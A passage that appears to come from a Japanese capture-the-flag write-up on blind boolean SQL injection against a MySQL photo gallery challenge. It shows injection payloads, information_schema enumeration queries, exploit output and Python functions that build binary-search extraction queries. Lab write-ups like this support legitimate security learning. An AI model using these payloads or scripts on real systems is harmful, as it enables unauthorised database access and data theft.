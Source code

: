 ```txt
table_stats
time_zone
time_zone_leap_second
time_zone_name
time_zone_transition
time_zone_transition_type
user
```
**photosのカラム数**  
```txt
$ python3 mysql-count-columns-get-fullsearch.py
0
 AND if(substr((SELECT count(distinct column_name) from  information_schema.columns where table_schema like 'level5' AND table_name like 'photos'),1,1)='0',1=1,1=3)#
 
result: 4
```
**albumsのカラム**  
```txt
[-] exploit finished
id
title
```
**photosのカラム**  
```txt
result: id,title,filename,parent
```
```txt
// 指定したDB、テーブルの持つカラム数を表示
SELECT count(distinct column_name) from  information_schema.columns where table_schema like 'db44364' AND table_name like 'demo';
SELECT COUNT(*) from  information_schema.columns where table_schema like 'db44364' AND table_name like 'demo'

// 指定したDBのテーブル数を表示
SELECT table_name from  information_schema.columns where table_schema like 'db44364' group by table_name

// 指定したDB、テーブルの持つカラムを結合して1行で表示
SELECT group_concat(column_name) from  information_schema.columns where table_schema like 'db44364' AND table_name like 'demo'
```
```python
database = "level5"
table = "photos"
column1 = "title"
column2 = "filename"
column3 = "parent"

def create_length_query(md,times):
    query = " AND if(length((select concat("+column1+",0x3a,"+column2+",0x3a,"+column3+") from " + database + "." + table + " limit " +str(times) + ",1)) >= " + str(md) + ",1=1,1=3)#"
    #print(query)
    return query

def create_2tansaku_query(md,i,times):
    query = " AND if(ascii(substr((select concat("+column1+",0x3a,"+column2+",0x3a,"+column3+") from " + database + "." + table + " limit " +str(times) +",1)," +str(i) + ",1)) >= " + str(md) + ",1=1,1=3)#"
    #print(query)
    return query
```
このInvisibleがフラグらしい……。（FLAG形式じゃないやないか…（怒））  
ちなみに以下は完全なFlagじゃないです。ちょっと隠してます。  
```txt
```